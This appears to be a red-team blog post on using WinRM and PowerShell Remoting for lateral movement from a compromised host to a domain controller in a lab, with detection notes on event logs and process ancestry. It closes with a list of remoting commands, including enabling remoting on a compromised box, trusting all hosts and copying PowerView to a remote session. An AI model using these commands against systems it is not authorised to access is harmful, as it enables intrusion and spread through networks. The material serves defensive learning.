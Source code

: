 ```yaml
---
layout: post
title: "t1028 winrm for lateral movement"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /lateral-movement/
---
```


---
description: PowerShell remoting for lateral movement.
---

# WinRM for Lateral Movement

## Execution

Attacker establishing a PSRemoting session from a compromised system `10.0.0.2` to a domain controller `dc-mantvydas` at `10.0.0.6`:

{% code title="attacker@10.0.0.2" %}
```csharp
New-PSSession -ComputerName dc-mantvydas -Credential (Get-Credential)

  Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 Session1        dc-mantvydas    RemoteMachine   Opened        Microsoft.PowerShell     Available

PS C:\Users\mantvydas> Enter-PSSession 1
[dc-mantvydas]: PS C:\Users\spotless\Documents> calc.exe
```
{% endcode %}

## Observations

Note the process ancestry:

![](../../.gitbook/assets/wsmprovhost-calc.png)

![](<../../.gitbook/assets/wsmprovhost-calc-sysmon (1).png>)

On the host that initiated the connection, a `4648` logon attempt is logged, showing what process initiated it, the hostname where it connected to and which account was used:

![](../../.gitbook/assets/winrm-local-logon-events.png)

The below graphic shows that the logon events `4648` annd `4624` are being logged on both the system that initiated the connection (`pc-mantvydas - 4648`) and the system that it logged on to (`dc-mantvydas - 4624`):

![](../../.gitbook/assets/winrm-logons-both.png)

Additionally, `%SystemRoot%\System32\Winevt\Logs\Microsoft-Windows-WinRM%4Operational.evtx` on the host that initiated connection to the remote host, logs some interesting data for a task `WSMan Session initialize` :

```markup
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-WinRM" Guid="{A7975C8F-AC13-49F1-87DA-5A984A4AB417}" /> 
  <EventID>6</EventID> 
  <Version>0</Version> 
  <Level>4</Level> 
  <Task>3</Task> 
  <Opcode>1</Opcode> 
  <Keywords>0x4000000000000002</Keywords> 

  # connection iniation time
  <TimeCreated SystemTime="2018-07-25T21:13:36.511895800Z" /> 
  <EventRecordID>673</EventRecordID> 

  # a unique connection ID
  <Correlation ActivityID="{037F878B-8DF6-4F1A-BA51-432C3CDDCB47}" /> 

  # process ID that initiated the connection
  <Execution ProcessID="3172" ThreadID="2844" /> 
  <Channel>Microsoft-Windows-WinRM/Operational</Channel> 
  <Computer>PC-MANTVYDAS.offense.local</Computer> 
  <Security UserID="S-1-5-21-1731862936-2585581443-184968265-1001" /> 
  </System>
- <EventData>

  # remote host the connection was initiated to
  <Data Name="connection">dc-mantvydas/wsman?PSVersion=5.1.14409.1005</Data> 
  </EventData>
  </Event>
```

...same as above just in the actual screenshot:

![](../../.gitbook/assets/winrm-eventlogs.png)

![](../../.gitbook/assets/winrm-session-information.png)

Since we entered into a PS Shell on the remote system `(Enter-PSSession)` , there is another interesting log showing the establishment of a remote shell - note that the ShellID corresponds to the earlier observed `Correlation ActivityID`:

![](../../.gitbook/assets/winrm-shell.png)

## Additional Useful Commands

[Jules Adriaens](https://twitter.com/@Expl0itabl3) reached out to me and suggested to add the following useful commands, so here they are:

```csharp
# Enable PowerShell Remoting on the target (box needs to be compromised first)
Enable-PSRemoting -force

# Check if a given system is listening on WinRM port
Test-NetConnection <IP> -CommonTCPPort WINRM

# Trust all hosts:
Set-Item WSMan:\localhost\Client\TrustedHosts -Value * -Force

# Check what hosts are trusted
Get-Item WSMan:\localhost\Client\TrustedHosts

# Execute command on remote host
Invoke-Command <host> -Credential $cred -ScriptBlock {Hostname}

# Interactive session with explicit credentials
Enter-PSSession <host> -Credential <domain>\<user>

# Interactive session using Kerberos:
Enter-PSSession <host> -Authentication Kerberos

# Upload file to remote session
Copy-Item -Path C:\Temp\PowerView.ps1 -Destination C:\Temp\ -ToSession (Get-PSSession)

# Download file from remote session
Copy-Item -Path C:\Users\Administrator\Desktop\test.txt -Destination C:\Temp\ -FromSession (Get-PSSession)
```

## References

{% embed url="http://www.hurryupandwait.io/blog/a-look-under-the-hood-at-powershell-remoting-through-a-ruby-cross-plaform-lens" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1028" %}
@spotheplanet
